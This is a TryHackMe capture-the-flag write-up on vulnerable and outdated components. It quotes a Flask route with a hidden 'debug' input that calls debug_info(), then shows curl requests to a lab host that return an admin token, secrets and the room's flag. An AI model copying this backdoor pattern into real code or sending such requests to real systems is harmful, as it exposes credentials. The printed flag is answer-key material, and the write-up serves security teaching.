


# TryHackMe — OWASP Top 10 2025: Vulnerable & Outdated Components (Software Supply Chain)

## Overview

This task is part of the **OWASP Top 10 2025** learning path on TryHackMe, focusing on **Vulnerable and Outdated Components** and **Software Supply Chain Risks**.

Software supply chain vulnerabilities occur when applications rely on third-party libraries, legacy code, or external dependencies that contain known weaknesses, unintended debugging functionality, or hidden administrative routines. In this exercise, the target web service imported functions from an outdated utility component (`lib/vulnerable_utils.py`), which contained a hidden debug check leading to sensitive data exposure and flag extraction.

> **Lab Environment:** TryHackMe  
> **Category:** OWASP Top 10 2025 — Software Supply Chain & Vulnerable Components  
> **Target:** Data Processing Service (`10.114.189.174:5003`)  
> **Technique:** Source Code Analysis & Parameter Manipulation (`data: debug`)

---

## Learning Objectives

- Understand supply chain security risks associated with legacy or third-party dependencies.
- Perform static code analysis on web application source files.
- Identify hidden debugging backdoors inside imported library logic.
- Construct custom cURL requests to trigger specific code paths.
- Implement robust software supply chain protections and safe dependency practices.

---

## What Is Software Supply Chain Risk?

Modern software development relies heavily on external libraries, frameworks, and third-party modules. While these dependencies speed up development, they introduce significant security risks if left unmanaged.

Common patterns include:

- Using unverified, unmaintained, or legacy libraries (`lib/vulnerable_utils.py`).
- Over-reliance on third-party components without routine security audits.
- Leftover development/debug functions exported directly into production environments.
- Insecure build pipelines or CI/CD processes that allow unauthorized code tampering.
- Lack of continuous vulnerability monitoring after application deployment.

---

## Target Enumeration

The target application was running on port `5003` at `http://10.114.189.174:5003`. 

The room provided context indicating that the application relied on an outdated component, specifically referencing `lib/vulnerable_utils.py`.

### Source Code Analysis (`app.py`)

Analyzing the application source revealed the core routes and module imports:

```python
from vulnerable_utils import process_data, format_output, debug_info

app = Flask(__name__)

@app.route('/api/process', methods=['POST'])
def process():
    """Process user input using third-party library"""
    try:
        data = request.json.get('data', '')
        if not data:
            return jsonify({'error': 'Missing data parameter'}), 400

        # Check for debug mode
        if data == 'debug':
            return jsonify(debug_info())

        processed = process_data(data)
        formatted = format_output(processed)

        return jsonify({
            'result': formatted,

            'status': 'success'
        })
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```


## Step 1 — Testing Normal API Behavior

To confirm the API structure, a standard POST request with empty data was sent to /api/process:

```tetx
curl -X POST [http://10.114.189.174:5003/api/process](http://10.114.189.174:5003/api/process) \
     -H "content-type: application/json" \
     -d '{"data": ""}'
```
Response:

```text
{
  "error": "Missing data parameter"
}
```
This confirmed the API endpoint was active and expected a structured JSON body with a data parameter.

## Step 2 — Exploiting Hidden Debug Mode
Based on the source code review, the string "debug" was passed in the data parameter:
```text
curl -X POST [http://10.114.189.174:5003/api/process](http://10.114.189.174:5003/api/process) \
     -H "content-type: application/json" \
     -d '{"data": "debug"}'
```
Response:
```text
{
  "admin_token": "admin_token_12345",
  "flag": "THM{SUPPLY_CH41N_VULN3R4B1L1TY}",
  "internal_secret": "internal_secret_key_2024",
  "version": "1.2.3"
}


```
The server executed debug_info() from the outdated library component and exposed internal secrets alongside the flag.
## Flag
```text
THM{SUPPLY_CH41N_VULN3R4B1L1TY}
```

